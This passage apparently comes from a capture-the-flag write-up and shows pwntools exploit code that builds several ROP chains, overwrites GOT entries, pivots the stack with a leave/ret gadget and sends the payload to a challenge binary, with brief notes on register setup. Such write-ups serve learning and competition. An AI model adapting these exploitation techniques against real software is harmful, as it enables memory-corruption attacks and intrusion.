 ```python
# Set rdi to some heap address that we don't care about
# We first set eax and then move the value to rdi to avoid clobbering rsi
# Set eax with the instructions at the end of the loop
# This is 4 + the address of the p32(leak) value at the end of the first half of the payload
rop3(rbp=buffer_addr + 129 + 4)
rop3.raw(eax_gadget)
# Move the value from eax to rdi
rop3.raw(rax_to_rdi_gadget)
# Call fread
rop3.raw(exe.plt.fread + 6)
# Pivot to the final ropchain
rop3(rbp=buffer_addr)
rop3.raw(rop3.find_gadget(["leave", "ret"]))
log.info(rop3.dump())

# Data that will be written in the second GOT overwrite
rop4 = ROP(exe)
rop4.raw(b"BBBBBBBB")
rop4.raw(rop4.find_gadget(["pop rbp", "ret"]))  # fread GOT
rop4.raw(rop4.find_gadget(["pop rbp", "ret"]))  # puts GOT
rop4.raw(b"CCCCCCCC")
log.info(rop4.dump())

# Data that will be written in the third GOT overwrite
rop5 = ROP(exe)
rop5.raw(rop5.find_gadget(["pop rbp", "ret"]))  # scanf GOT
rop5.raw(b"DDDDDDDD")
rop5.raw(b"EEEEEEEE")
rop5.raw(rop5.find_gadget(["pop rbp", "ret"]))  # fread GOT
log.info(rop5.dump())

payload = b"2"
payload += rop1.generatePadding(0, 16)
payload += rop1.chain()
# Data that will be written to GOT
payload += rop2.chain()
payload += rop4.chain()
payload += rop5.chain()
payload += p32(leak)  # Value that will be loaded into eax in order to set rdi without clobbering rsi
payload = payload.ljust(rop3_offset, b"\0")  # Stack space for the functions that we call
payload += rop3.chain()

r.sendafter(b"stuff\n", payload)
```

I set `rsi` to 66 when calling `fread` since 66 * 32 is a little bit bigger than the amount of stuff in the buffer that we need to discard.
I set `rdi` to the leak address since we just need to write the junk to somewhere that we don't care about.
